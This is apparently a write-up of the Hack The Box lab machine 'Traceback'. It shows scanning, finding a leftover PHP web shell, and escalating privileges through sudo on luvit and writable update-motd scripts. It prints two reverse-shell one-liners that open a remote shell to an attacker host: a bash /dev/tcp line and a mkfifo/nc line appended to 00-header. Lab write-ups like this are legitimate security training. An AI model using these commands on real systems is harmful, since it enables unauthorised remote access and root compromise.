```yaml
---
title: "[HTB] Machine: Traceback"
description: "[HTB] Machine: Traceback"
date: 2023-06-29
menu:
  sidebar:
    name: "[HTB] Machine: Traceback"
    identifier: htb-machine-traceback
    parent: htb-machines-linux
    weight: 10
hero: images/traceback.png
tags: ["HTB"]
---
```


# Traceback
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.181                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 14:42 BST
Nmap scan report for 10.10.10.181 (10.10.10.181)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.58 seconds

```
- Web server 

![](./images/1.png)
![](./images/2.png)

- Since we have a hint that there is a web shell left
  - We can the following [list](https://gist.github.com/sbnsec/352128ea5bd8c95f48d748d5f25e3639)
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.181 -w ./php-shells.txt -t  50
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                ./php-shells.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/29 16:39:39 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]
Progress: 847 / 848 (99.88%)
===============================================================
2023/06/29 16:39:46 Finished
===============================================================
```
## Foothold
- Web shell

![](./images/3.png)

- Let's try default creds

![](./images/4.png)
![](./images/5.png)

- Let's get a reverse shell
  - Enter `bash -c 'bash -i >& /dev/tcp/10.10.16.7/6666 0>&1'` to `Execute` field

![](./images/6.png)
![](./images/7.png)
## User
- Found a note inside home folder
  - Also have `sudo` rights as sysadmin to execute [luvit](https://luvit.io/)

![](./images/8.png)
![](./images/9.png)

- Since we are tracing the path of the attacker
  - Checking the `.bash_history` reveals the privesc path

![](./images/13.png)

- We can try writing our key to `authorized_keys`
  - Let's write a script
  - And run it as `sysadmin`
  - ssh to box as `sysadmin` using the key

![](./images/10.png)
![](./images/11.png)
![](./images/12.png)

## Root
- After running `linpeas`, I launched `pspy`
  - Found a `cronjob` that restores the contents of `/etc/update-motd.d/`
  - They are owned by `sysadmin` group

![](./images/14.png)
![](./images/15.png)

- We saw that the `ssh` banner was changed
  - According to [man page](http://manpages.ubuntu.com/manpages/trusty/man5/update-motd.5.html)
    - `executed by pam_motd(8) as the root user at each  login,  and  this information is concatenated in /var/run/motd.  The order of script execution is determined by the run-parts(8) --lsbsysinit  option  basically  alphabetical order, with a few caveats).`

![](./images/16.png)

- We can append reverse shell into one of these files
  - Let's try it
  - `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 7777 >/tmp/f' >> 00-header`
  - Launch a listener and connect as `sysadmin` 
  - Rooted

![](./images/17.png)
